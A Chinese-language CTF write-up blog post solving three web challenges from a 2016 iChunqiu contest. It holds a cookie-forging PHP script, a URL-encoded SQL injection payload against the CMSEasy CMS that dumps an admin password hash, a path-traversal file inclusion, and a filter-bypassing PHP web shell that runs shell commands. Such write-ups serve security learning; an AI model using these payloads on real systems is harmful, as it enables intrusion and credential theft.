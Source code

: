 ```yaml
---
layout: post
title: "CTF:I春秋百度杯9月第一周Write-up"
date:   2016-10-17
excerpt: "I春秋百度杯CTF9月份第一周Write-up"
tag:
- Web
- CTF
---
```

<h2 id="-write-up">第一周Write-up</h2>
<h3 id="code-">Code:</h3>
<p>　　提示：考脑洞题<br>　　打开题目后显示一张图片，在url中可以看到，/index.php?jpg=hei.jpg<br><img src="/images/postimage/2016-10-17-baiductf_901/1.png" alt=""><br>　　尝试访问/index.php?jpg=index.php<br>　　BINGO!<br>　　得到<br><img src="/images/postimage/2016-10-17-baiductf_901/2.png" alt=""><br>　　可以看到一串base64编码<br>　　通过base64解码，得到以下代码：</p>

<blockquote>
<p>&lt;?php<br>/**<br>* Created by PhpStorm.<br> * Date: 2015/11/16<br> * Time: 1:31<br> */<br>header(&#39;content-type:text/html;charset=utf-8&#39;);<br>if(! isset($<em>GET[&#39;jpg&#39;]))<br>　　header(&#39;Refresh:0;url=./index.php?jpg=hei.jpg&#39;);<br>$file = $_GET[&#39;jpg&#39;];<br>echo &#39;<title>file:&#39;.$file.&#39;</title>&#39;;<br>$file = preg_replace(&quot;/[^a-zA-Z0-9.]+/&quot;,&quot;&quot;, $file);<br>$file = str_replace(&quot;config&quot;,&quot;</em>&quot;, $file);<br>$txt = base64_encode(file_get_contents($file));</p>
<p>echo &quot;&lt;img src='data:image/gif;base64,".$txt."'>&lt;/img>&quot;;<br>/*<br> * Can you find the flag file?<br> *<br> */</p>
<p>?&gt;</p>
</blockquote>

<p>　　从代码中可以看到在url中将a-z,A-Z,0-9以及.以外的所以字符全部替换为&quot;&quot;<br>　　并且将config替换为<em><br>　　起初怀疑是绕过config.php，但发现config.php无法绕过<br>　　转而看到phpstorm，查看phpstorm生成的/.idea/workspace.xml文件<br><img src="/images/postimage/2016-10-17-baiductf_901/3.png" alt=""><br>　　可以看出，还有fl3g_ichuqiu.php，猜测flag在这个文件里<br>　　访问发现没有有价值的内容，由于在正则中将</em>过滤了<br>　　通过config和_之间的替换绕过该正则，访问/index.php?jpg=fl3gconfigichuqiu.php<br>　　得到<br><img src="/images/postimage/2016-10-17-baiductf_901/4.png" alt=""><br>　　再此解码得到：</p>
<blockquote>
<p>&lt;?php<br>/**<br> * Created by PhpStorm.<br> * Date: 2015/11/16<br> * Time: 1:31<br> */<br>error_reporting(E_ALL || ~E_NOTICE);<br>include(&#39;config.php&#39;);<br>function random($length, $chars = &#39;ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz&#39;) {<br>　　$hash = &#39;&#39;;<br>　　$max = strlen($chars) - 1;<br>　　for($i = 0; $i &lt; $length; $i++)    {<br>　　$hash .= $chars[mt_rand(0, $max)];<br>　　}<br>　　return $hash;<br>}</p>
<p>function encrypt($txt,$key){<br>　　for($i=0;$i&lt;strlen($txt);$i++){<br>　　　　$tmp .= chr(ord($txt[$i])+10);<br>　　}<br>　　$txt = $tmp;<br>　　$rnd=random(4);<br>　　$key=md5($rnd.$key);<br>　　$s=0;<br>　　for($i=0;$i&lt;strlen($txt);$i++){<br>　　　　if($s == 32) $s = 0;<br>　　}<br>　　return base64_encode($rnd.$ttmp);<br>}</p>
<p>function decrypt($txt,$key){<br>　　$txt=base64_decode($txt);<br>　　$rnd = substr($txt,0,4);<br>　　$txt = substr($txt,4);<br>　　$key=md5($rnd.$key);</p>
<p>　　$s=0;<br>　　for($i=0;$i&lt;strlen($txt);$i++){<br>　　　　if($s == 32) $s = 0;<br>　　　　$tmp .= $txt[$i]^$key[++$s];<br>　　}<br>　　　for($i=0;$i&lt;strlen($tmp);$i++){<br>　　　　$tmp1 .= chr(ord($tmp[$i])-10);<br>　　}<br>　　return $tmp1;<br>}</p>
<p>$username = decrypt($_COOKIE[&#39;user&#39;],$key);<br>if ($username == &#39;system&#39;){<br>　　echo $flag;<br>}else{<br>　　setcookie(&#39;user&#39;,encrypt(&#39;guest&#39;,$key));<br>　　echo &quot;╮(╯▽╰)╭&quot;;<br>}<br>?&gt;</p>
</blockquote>
<p>　　通过抓包发现在cookies中多出了user一项</p>
<p><img src="/images/postimage/2016-10-17-baiductf_901/5.png" alt=""><br>　　该user值为setcookie(&#39;user&#39;,encrypt(&#39;guest&#39;,$key));的值，通过该值和encrypt可以得到5位key值。<br>　　而已知key值为md5，在加密system时用到的key值中的前6位，故最后一位未知的有16种可能。<br>　　依照这个思路编写php代码如下：</p>
<blockquote>
<p>?&lt;?php<br>$txt=&quot;guest&quot;;<br>$ttmp=&quot;aU1aVxJMDElN&quot;;<br>$ttmp=base64_decode($ttmp);<br>$rnd=substr($ttmp,0,4);<br>$ttmp=substr($ttmp,4);<br>for($i=0;$i&lt;strlen($txt);$i++){<br>　　$tmp.=chr(ord($txt[$i])+10);<br>}<br>$txt=$tmp;<br>$tmp=&quot;&quot;;<br>for($i=0;$i&lt;strlen($ttmp);$i++){<br>　　$key .= $txt[$i] ^ $ttmp[$i];<br>}<br>$md5guess=&quot;0123456789abcdef&quot;;<br>$txt1=&quot;system&quot;;<br>for($i=0;$i&lt;strlen($txt1);$i++){<br>　　$tmp.=chr(ord($txt1[$i])+10);<br>}<br>$txt1=$tmp;</p>
<p>$tmp=&quot;&quot;;<br>for($i=0;$i&lt;16;$i++){<br>　　$tkey=$key.$md5guess[$i];<br>　　for($j=0;$j&lt; strlen($txt1);$j++){<br>　　$rresult .= $txt1[$j]^$tkey[$j];<br>}<br>$result=base64_encode($rnd.$rresult);<br>echo $result;<br>echo &#39;&lt;/br&gt;&#39;;<br>$rresult=&quot;&quot;;<br>}<br>?&gt;</p>
</blockquote>
<p>运行后得出以下结果：<br><img src="/images/postimage/2016-10-17-baiductf_901/6.png" alt=""><br>将其写入txt文档，并导入burp中跑。<br><img src="/images/postimage/2016-10-17-baiductf_901/7.png" alt=""></p>
<p><img src="/images/postimage/2016-10-17-baiductf_901/8.png" alt=""></p>
<p><img src="/images/postimage/2016-10-17-baiductf_901/9.png" alt=""><br>得到FLAG！</p>

<h3 id="yesercms-">YeserCMS:</h3>
<p><img src="/images/postimage/2016-10-17-baiductf_901/10.png" alt=""></p>
<p>　　通过浏览网页发现该网站使用的是CMSEASY，搜索该CMS漏洞。<br>　　使用缺陷编号： WooYun-2015-137013<br>　　漏洞标题： cmseasy 无限制报错注入（php函数的坑） </p>
<p>　　构造payload：<br>　　xajax=Postdata&amp;xajaxargs[0]=&lt;xjxquery&gt;&lt;q&gt;detail=xxxxxx%2527%252C%2528UpdateXML%25281%252CCONCAT%25280x5b%252Cmid%2528%2528SELECT%252f%252a%252a%252fGROUP_CONCAT%2528concat%2528password%2529%2529%2520from%2520yesercms_user%2529%252C1%252C32%2529%252C0x5d%2529%252C1%2529%2529%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%2529--%2520&lt;/q&gt;&lt;/xjxquery&gt;<br>　　成功注入：<br><img src="/images/postimage/2016-10-17-baiductf_901/11.png" alt=""><br>　　密码MD5未显示全，通过调整mid函数的1,32参数，改为2，33查看最后一位MD5值。<br><img src="/images/postimage/2016-10-17-baiductf_901/12.png" alt=""><br>　　最终密码md5为：ff512d4240cbbdeafada404677ccbe61<br>　　解密为：Yeser231</p>
<p>　　进入后台，对源码进行代码审计，发现在模板编辑处的fetch操作存在注入。<br>　　post to /index.php?case=template&amp;act=fetch&amp;admin_dir=admin&amp;site=default<br>　　payload：&amp;id=#../../flag.php<br>　　通过文件包含拿到flag</p>

<h3 id="upload-">upload：</h3>
<p>　　尝试上传文件，发现服务器对上传文件类型和文本内容进行了过滤。<br>　　过滤了&lt;?和php，通过&lt;script language=&quot;phP&quot;&gt;绕过。<br>　　并且改变文件类型。<br>　　payload=&lt;script language=&quot;phP&quot;&gt;echo `$_REQUEST[v]`;&lt;/script&gt;<br><img src="/images/postimage/2016-10-17-baiductf_901/13.png" alt=""><br>　　成功上传后，返回文件绝对路径/u/1.php<br>　　对1.php发包，构造v=pwd，获取路径。<br><img src="/images/postimage/2016-10-17-baiductf_901/14.png" alt=""><br>　　通过cat 获取flag.php文件，payload=cat /var/www/html/flag.php<br><img src="/images/postimage/2016-10-17-baiductf_901/15.png" alt=""><br>　　tip:第一个payload&lt;script language=&quot;phP&quot;&gt;echo `$_REQUEST[v]`;&lt;/script&gt;中，为`而不是&#39;。<br>　　反引号（``） 执行运算符（注意这不是单引号）</p>
<p>　　PHP 将尝试将反引号中的内容作为外壳命令来执行，并将其输出信息返回（例如，可以赋给一个变量而不是简单地丢弃到标准输出）。使用反引号运算符“`”的效果与函数 shell_exec() 相同。</p>
